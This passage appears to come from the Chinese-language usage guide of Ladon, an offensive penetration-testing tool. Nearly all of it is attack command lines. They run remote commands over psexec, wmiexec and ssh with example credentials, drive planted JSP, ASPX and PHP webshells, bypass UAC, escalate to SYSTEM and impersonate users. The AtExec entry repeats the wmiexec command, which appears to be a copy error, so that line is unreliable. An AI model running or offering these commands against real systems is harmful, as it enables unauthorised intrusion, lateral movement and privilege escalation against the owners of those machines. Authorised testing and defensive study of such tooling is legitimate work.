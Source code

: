 ### 远程执行(psexec/wmiexec/atexec/sshexec)

##### 445端口 PSEXEC远程执行命令（交互式）

net user \\192.168.1.8 k8gege520 /user:k8gege
Ladon psexec 192.168.1.8
psexec> whoami
nt authority\system

##### 058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##### 061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd
Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

#### 062 WebShell远程执行命令（非交互式）
```Bash
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
```

### 提权降权

##### 063 BypassUac 绕过UAC执行,支持Win7-Win10 	
Ladon BypassUac c:\1.exe
Ladon BypassUac c:\1.bat

##### 064 GetSystem 提权或降权运行程序 	
Ladon GetSystem cmd.exe
Ladon GetSystem cmd.exe explorer

##### 065 Runas 模拟用户执行命令 	
Ladon Runas user pass cmd

### 其它功能

##### 066 Win2008一键启用.net 3.5	
Ladon EnableDotNet

##### 067 获取内网站点HTML源码 	
Ladon gethtml http://192.168.1.1

##### 068 检测后门
Ladon CheckDoor
Ladon AutoRun
